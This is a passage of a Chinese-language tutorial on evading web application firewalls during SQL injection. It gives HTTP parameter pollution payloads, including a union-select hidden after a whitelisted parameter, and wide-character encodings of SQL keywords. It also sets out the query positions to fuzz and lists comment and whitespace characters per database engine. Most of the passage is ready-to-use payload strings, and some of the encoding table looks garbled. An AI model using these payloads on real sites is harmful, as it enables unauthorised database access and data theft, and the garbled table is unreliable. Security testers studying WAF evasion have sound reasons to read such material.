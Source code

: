     Mysql：  
    ?id=1&id=1&id=1&id=1&id=1&id=1&id=1&id=….. &id=1 union select 1,2 from admin

如此可以分析：当WAF获取参数的形式与WEB程序获取参数的形式不一致的时候，就可能出现WAF bypass的可能。

Ps.此处关键还是要分析WAF对于获取参数的方式是如何处理的。这里也要再提一下的，hpp的灵活运用，譬如有些cms基于url的白名单，因此可以利用hpp的方式在参数一的位置添加白名单目录，参数2的位置添加恶意的payload。形如`index.php?a=[whitelist]&a=select
1 union select 2`

 **4、宽字节**

宽字节关键字对照表：

    
    
    union = uю%69яю这里把i不用宽字节 直接url编码 其他的字符都用对应的宽字节  
    select = こхlх%уt //t不编码 其他的都宽字节 中间插上%  
    from = цR%яэ //宽字节+%  
    空格=%20=%ва //в是2的款字符 а是0的宽字符  
    , = Ь //,号的宽字节

### 数据库层bypass

sql注入bypass WAF时，根据数据库特性去构造。

一般一个SQL语句组成包括如下几个位置：

    
    
    select * from admin where id=1【位置一】union【位置二】select【位置三】1,2,db_name()【位置四】from【位置五】admin

通过对常见有5个位置进行FUZZ，可以探索更多能够绕过WAF的数据库特性。

#### 数据库特性

  * 注释

    
    
    #  
    --  
    -- -  
    --+  
    //  
    /**/  
    /*letmetest*/  
    ;%00

  * 科学计数法  
1e1{union from}

  * 空白字符
    
        SQLite3 0A 0D 0C 09 20  
    Mysql %09,%0a,%0b,%0c,%0d,%a0  
    PosgresSQL 0A 0D 0C 09 20  
    Oracle 11g 00 0A 0D 0C 09 20  
    MSSQL  
    01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
